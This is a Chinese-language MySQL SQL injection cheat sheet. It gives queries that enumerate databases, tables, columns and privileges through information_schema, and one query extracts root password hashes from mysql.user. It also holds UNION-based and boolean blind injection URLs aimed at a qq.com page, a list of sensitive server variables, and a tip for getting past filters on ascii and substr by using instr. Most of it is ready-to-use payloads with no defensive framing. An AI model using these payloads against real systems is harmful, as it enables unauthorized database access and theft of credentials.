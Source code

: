 查询information_schema(>=5.0 才存在,mysql5.0以下需要字典猜表)、mysql 数据库的信息(需要root权限，表名、列名、对应权限等)  

mysql.user、information_schema.schemata、information_schema.tables、information_schema.columns、  information_schema.user_privileges  

`SELECT CONCAT_WS(0x3A, user, password) FROM mysql.user WHERE user = 'root'-- (Privileged)`  
使用CONCAT()时，任何一个参数为null，将返回null， 推荐使用CONCAT_WS()。  
CONCAT_WS() 函数第一个参数表示用哪个字符间隔所查询的结果。  
`SELECT database();`  
`SELECT group_concat(schema_name) FROM information_schema.schemata;`  
`SELECT DISTINCT(db) FROM mysql.db;-- (Privileged)`
`UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;--` MySQL 4版本时用version=9，MySQL 5版本时用version=10  
`UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename';`  
`union select concat(grantee,0x3a,privilege_type,0x3a,is_grantable) from information_schema.user_privileges`  //权限    
`SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%';`


查询版本，用户，操作系统等  
``` 
http://www.qq.com/1.php?id=-1 union select 1,2,3,4,@@datadir,6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union select 
1,2,3,4,group_concat(version(),0x3a,database(),0x3a,user()),6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union select 1,2,3,4,@@datadir,6,7,8,9,10,11,12,13,14
http://www.qq.com/1.php?id=-1 union all select 1,unhex(hex(@@version)),3/*
http://www.qq.com/1.php?id=5 and substring(@@version,1,1)=4
``` 
如果MySQL的版本是4，这应该返回TRUE.   
用5替换4，并且，如果返回的查询匹配则版本为5   
```  
http://www.qq.com/1.php?id=5 and substring(@@version,1,1)=5
http://www.qq.com/1.php?id=5 AND MID(VERSION(),1,1) = '5';
http://www.qq.com/1.php?id=5 AND ord(MID(VERSION(),1,1)) = 53;
```
---------------------------------------------------------------------------------------------------------

### 内置变量列表  
@@version  VERSION()  @@GLOBAL.VERSION 版本   
@@version_compile_os  
@@have_openssl 如果mysqld支持客户端/服务器协议的SSL(加密)则为YES  
@@version_compile_os 判断系统类型  
@@max_allowed_packet 包或任何生成的/中间字符串的最大大小  
@@max_user_connections MySQL账户允许的最大同时连接数,0表示没限制   
@@skip_networking 如果服务器只允许本地(非TCP/IP)连接,该值为ON  
@@table_type 默认表类型(存储引擎)  
@@basedir MySQL安装基准目录  
@@character_set_database 默认数据库使用的字符集  
@@datadir 数据库存储的地方  
@@expire_logs_days 二进制日志自动删除的天数,默认是0,表示"没有自动删除"  
@@group_concat_max_len 允许group_concat()函数结果的最大长度  
@@log_error 错误日志的位置  
@@lower_case_file_system 该变量说明是否数据目录所在的文件系统对文件名的大小写敏感.ON说明对文件名的大小写不敏感,OFF表示敏感  
@@lower_case_table_names 如果设置为1,表名用小写保存到硬盘上,并且表名比较时不对大小写敏感.如果设置为2,按照指定的保存表名,但按照小写来比较  
@@plugin_dir 插件目录的路径  
@@tmpdir 保存临时文件和临时表的目录  
@@tmp_table_size 如果内存内的临时表超过该值,MySQL自动将它转换为硬盘上的MyISAM表  
@@sql_mode 当前服务器的sql模式  
@@tx_isolation 默认事务隔离级别.默认值为REPEATABLE-READ  
@@Connections 连接mysql数据库服务器的次数(不管成功还是失败)  
@@max_write_lock_count 最大写锁数量  
@@old_passwords 是否启用mysql323加密方式(就是mysql用户密码的hash是16位的)  
@@Uptime 服务器已经运行的时间   
通过id=instr(@@global.version,1)来获取global变量。@@global包含很多敏感信息，过滤了ascii,substr函数，仍可用instr来盲注。  